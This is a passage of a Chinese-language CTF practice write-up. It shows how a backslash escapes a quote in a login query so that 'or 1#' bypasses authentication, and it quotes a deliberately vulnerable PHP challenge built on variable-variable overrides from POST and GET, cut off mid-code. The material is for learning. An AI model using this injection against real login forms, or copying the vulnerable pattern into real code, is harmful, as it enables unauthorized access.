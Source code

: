 ```yaml
---
title: buu30解刷题记录
date: 2021-02-01 17:57:02
updated: 2021-03-25 15:27:54
categories: Write up
---
```



记录一些在刷题过程中，发现的一些有趣的题目




##  (忘记哪题了)




```
select * from users where username=‘$_POST["username"]‘ and password=‘$_POST["password"]‘;
```

显示了后端的SQL语句，我们可以使用\转义符转义username后面的引号，令username的第一个引号和password的第一个引号闭合，逃逸出password第一个引号后面的内容

如输入

```
username=admin\
password=or 1#
```

　　数据库查询语句事实上变成了这样：

```
select * from users where username=‘admin\‘ and password=‘or 1#‘;
```





---

## （忘记哪题了）

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
```